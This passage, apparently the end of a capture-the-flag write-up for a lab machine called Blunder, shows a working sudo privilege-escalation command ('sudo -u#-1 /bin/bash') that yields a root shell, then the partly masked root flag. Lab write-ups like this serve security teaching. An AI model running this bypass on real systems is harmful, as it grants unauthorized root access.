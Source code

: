 

    hugo@blunder:~$ sudo -u#-1 /bin/bash
    Password:
    root@blunder:/home/hugo#



Now I can grab `root.txt`:



    root@blunder:/root# cat root.txt
    2f1f6d99************************







